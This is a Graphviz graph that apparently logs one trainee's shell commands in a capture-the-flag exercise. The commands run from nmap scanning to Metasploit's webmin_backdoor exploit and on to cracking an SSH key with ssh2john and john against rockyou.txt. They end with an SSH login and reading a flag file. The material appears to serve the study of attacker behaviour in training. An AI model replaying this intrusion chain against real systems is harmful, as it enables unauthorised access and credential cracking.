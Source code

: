 // creating graph for user: 43
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 A0 M0 A1 "]
	1 [label="netstat -lpn U"]
	2 [label="netstat -lpn  U"]
	3 [label="netstat -na U"]
	4 [label="netstat -sV U"]
	5 [label="man netstat U"]
	6 [label="touch webmin.sh U"]
	7 [label="nano webmin.sh U"]
	8 [label="chmod +x webmin.sh A15 "]
	9 [label="./webmin.sh U"]
	10 [label="perl --version U"]
	11 [label="ruby --version U"]
	12 [label="ls A10 "]
	13 [label="chmod +x 47230.rb A15 "]
	14 [label="ls A10 "]
	15 [label="./47230.rb U"]
	16 [label="./webmin.sh https://localhost:10000 U"]
	17 [label="./webmin.sh 100.100.100.5:10000 U"]
	18 [label="./webmin.sh 100.100.100.5 U"]
	19 [label="./webmin.sh 172.18.1.1:10000 U"]
	20 [label="./webmin.sh 172.18.1.1 U"]
	21 [label="metasploit U"]
	22 [label="msfconsole A2 M2 "]
	23 [label="use 47230.rb A4 "]
	24 [label="show targets A5 "]
	25 [label="set TARGET 0 A6 "]
	26 [label="exploit A8 M8 "]
	27 [label="show options A5 M5 "]
	28 [label="set TARGETURI /root/ A6 "]
	29 [label="show options V5 "]
	30 [label="set RHOSTS 172.18.1.1 A6 M6 "]
	31 [label="exploit V8 "]
	32 [label="use exploit/unix/webapp/webmin_backdoor  V8 "]
	33 [label="show options V5 "]
	34 [label="exploit V8 "]
	35 [label="set TARGET 0 A6 "]
	36 [label="exploit V8 "]
	37 [label="set RHOSTS 172.18.1.5 V6 "]
	38 [label="exploit V8 "]
	39 [label="set LHOST 0.0.0.0 V6 "]
	40 [label="exploit V8 "]
	41 [label="show options V5 "]
	42 [label="set TARGETURI /root/ A6 "]
	43 [label="exploit V8 "]
	44 [label="set TARGETURI / A6 "]
	45 [label="show options V5 "]
	46 [label="exploit V8 "]
	47 [label="set LHOST 127.0.0.1 V6 "]
	48 [label="exploit V8 "]
	49 [label="ifconfig U"]
	50 [label="ifconfig U"]
	51 [label="set LHOST 192.168.131.153 V6 "]
	52 [label="exploit V8 "]
	53 [label="show options V5 "]
	54 [label="set LHOST 10.1.135.83 V6 "]
	55 [label="exploit V8 "]
	56 [label="check A7 "]
	57 [label="show options V5 "]
	58 [label="exploit V8 "]
	59 [label="netstat -lpn U"]
	60 [label="clear U"]
	61 [label="netstat -a U"]
	62 [label="netstat -na U"]
	63 [label="netstat -a U"]
	64 [label="netstat -a U"]
	65 [label="msfconsole V2 "]
	66 [label="use exploit/unix/webapp/webmin_backdoor  V8 "]
	67 [label="show options V5 "]
	68 [label="ifconfig U"]
	69 [label="set LHOST 10.1.135.83 V6 "]
	70 [label="netstat -a U"]
	71 [label="set RHOST 172.168.1.5 A6 "]
	72 [label="exploit V8 "]
	73 [label="show options V5 "]
	74 [label="set TARGET 0 A6 "]
	75 [label="exploit V8 "]
	76 [label="set RHOST 192.168.1.5 A6 "]
	77 [label="exploit V8 "]
	78 [label="set RHOST 172.18.1.5 A6 "]
	79 [label="exploit V8 "]
	80 [label="show options V5 "]
	81 [label="set TARGET 0 A6 "]
	82 [label="exploit V8 "]
	83 [label="show options V5 "]
	84 [label="set TARGET 0 A6 "]
	85 [label="exploit V8 "]
	86 [label="set TARGET 0 A6 "]
	87 [label="pwd U"]
	88 [label="exploit V8 "]
	89 [label="set TARGET 0 A6 "]
	90 [label="exploit V8 "]
	91 [label="set TARGET 0 A6 "]
	92 [label="touch key.txt U"]
	93 [label="cd U"]
	94 [label="ls A10 "]
	95 [label="./ssh2john.py ~/Desktop/key.txt > hash A14 A16 "]
	96 [label="ls A10 "]
	97 [label="man john A14 "]
	98 [label="john --wordlist=/usr/share/wordlists/rockyou.txt hash A14 M14 "]
	99 [label="msfconsole V2 "]
	100 [label="use /exploit/unix/webapp/webmin_backdoor V8 "]
	101 [label="use exploit/unix/webapp/webmin_backdoor  V8 "]
	102 [label="show options V5 "]
	103 [label="set RHOST 172.18.1.5 A6 "]
	104 [label="set TARGET 0 A6 "]
	105 [label="ifconfig U"]
	106 [label="set LHOST 10.1.135.83 V6 "]
	107 [label="ssh -i key.txt eve@10.1.17.45 A16 M16 "]
	108 [label="ssh -i key.txt eve@10.1.17.4 V16 "]
	109 [label="ssh -i key.txt eve@10.1.17.4 V16 "]
	110 [label="chmod 777 key.txt A15 "]
	111 [label="ssh -i key.txt eve@10.1.17.4 V16 "]
	112 [label="chmod 400 key.txt A15 "]
	113 [label="ssh -i key.txt eve@10.1.17.4 V16 "]
	114 [label="ls A10 "]
	115 [label="cd top-secret/ U"]
	116 [label="ls A10 "]
	117 [label="cat flag.txt A17 M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	rankdir=LR
}

